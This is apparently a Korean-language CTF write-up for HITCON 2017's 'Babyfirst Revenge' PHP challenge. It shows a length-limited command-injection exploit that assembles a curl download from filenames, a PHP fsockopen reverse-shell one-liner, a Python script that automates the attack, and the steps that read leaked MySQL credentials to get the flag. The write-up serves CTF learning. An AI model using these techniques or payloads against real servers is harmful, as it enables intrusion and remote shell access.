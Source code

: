 # [WEB] HITCON 2017 - Babyfirst_revenge

# Description

http://52.199.204.34/

# Analysis

문제 페이지에 접근하면 소스는 다음과같다.

```php+HTML
<?php
    $sandbox = '/www/sandbox/' . md5("orange" . $_SERVER['REMOTE_ADDR']);
    @mkdir($sandbox);
    @chdir($sandbox);
    if (isset($_GET['cmd']) && strlen($_GET['cmd']) <= 5) {
        @exec($_GET['cmd']);
    } else if (isset($_GET['reset'])) {
        @exec('/bin/rm -rf ' . $sandbox);
    }
    highlight_file(__FILE__);

```

소스는 매우 간단하다.

cmd파라미터로 **입력받은 값의 길이가 5 이하**여야 exec를 통해 실행해준다.

즉 exec를 통해 무언가를하여 쉘을 따던가 원하는 명령어를 실행하던가 해야하는 문제이다.

24시간동안 열심히 삽질을 한 문제이다.

다양한 방법으로 공격이 가능한 문제이다.

# Exploit

### Case 1. curl

curl 명령어를 통해 원하는 스크립트를 서버에 다운받고 이를 이용하여 reverse shell을 여는 방법이다.

우선 들어가는 쿼리를 한번 보자.

```bash
>ls\
ls>>_
>\ \
>-t\
>\>g
ls>>_
# '_' 파일을 생성하며, 내용으로는 'ls -t >g'가 들어간다.
>aa
>\>\
>L\
>UR\
>\ \
>rl\
>cu\
sh _
# '_' 파일을 쉘 스크립트로써 실행해주며 'ls -t >g'의 수행 결과가 'g'파일에 들어가게 된다.
# 들어가는 내용은 최종적으로 'curl URL>aa'가 된다.
sh g
# 'g'파일을 쉘 스크립트로써 실행하면 'curl' 명령어가 실행되 URL의 index페이지를 'aa'파일로 저장하게 된다.
sh aa
# 그 후 저장된 index을 쉘 스크립트로써 실행한다.
```

index페이지에 들어가는 내용은 다음과 같다.

```Bash
php -r '$sock=fsockopen("URL",PORT);exec("/bin/sh -i <&3 >&3 2>&3");'
```

그로인해 완성된 코드는 다음과 같다.

```python
import requests
import urllib
import time


cmds = ['>ls\\','ls>>_','>\\ \\','>-t\\','>\\>g','ls>>_','>aa','>\\>\\','>L\\','>UR\\','>\\ \\','>rl\\','>cu\\','sh _','sh g','sh aa']

r = requests.get('http://52.199.204.34/?reset=1')
for d in cmds:
    r = requests.get('http://52.199.204.34/?cmd='+urllib.quote(d))
    print d
    time.sleep(0.5)
```

nc로 포트를 열어놓고 위 코드를 실행하면 쉘이 떨어진다!

디렉토리를 탐색 해보자.

```
$ cd home
$ ls
fl4444g
orange
ubuntu
$ cd fl4444g
$ ls
README.txt
$ cat README.txt
Flag is in the MySQL database
fl4444g / SugZXUtgeJ52_Bvr
```

DB안에 플래그가 있는 모양이다.

mysql 유저와 패스워드를 알려줬으니 접속해서 탐색좀해보면 fl4gdb안에 this_is_the_fl4g테이블이 존재하는것을 알 수 있다.

플래그를 얻으러 가자!

```
$ mysql -u fl4444g -p
Enter password: SugZXUtgeJ52_Bvr
use fl4gdb;
select * from this_is_the_fl4g;
ls;
ERROR 1064 (42000) at line 3: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'ls' at line 1
secret
hitcon{idea_from_phith0n,thank_you:)}
$
```



**hitcon{idea_from_phith0n,thank_you:)}**





### Case 2. tar



***thanks to Joizel***



